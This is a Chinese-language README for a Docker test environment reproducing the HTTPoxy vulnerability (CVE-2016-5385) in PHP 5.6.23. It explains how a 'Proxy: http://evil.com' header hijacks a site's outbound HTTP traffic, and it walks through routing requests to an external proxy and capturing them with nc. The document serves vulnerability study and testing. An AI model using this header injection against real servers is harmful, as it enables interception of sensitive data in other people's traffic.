



# HTTPoxy漏洞（CVE-2016-5385）测试环境

## 原理

参考：http://www.laruence.com/2016/07/19/3101.html

简单来说，根据RFC 3875规定，fastcgi要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23。

## 测试流程

编译、运行本环境：

```
docker-compose build
docker-compose up -d
```

正常请求`http://your-ip/index.php`，可见其Origin为当前请求的服务器，二者IP相等：



在其他地方找到一个可以正常运行的http代理，如`http://x.x.122.65:8888/`。

附带`Proxy: http://x.x.122.65:8888/`头，再次访问`http://your-ip/index.php`：



如上图，可见此时的Origin已经变成`x.x.122.65`，也就是说真正进行HTTP访问的服务器是`x.x.122.65`，也就是说`x.x.122.65`已经将正常的HTTP请求代理了。

在`x.x.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

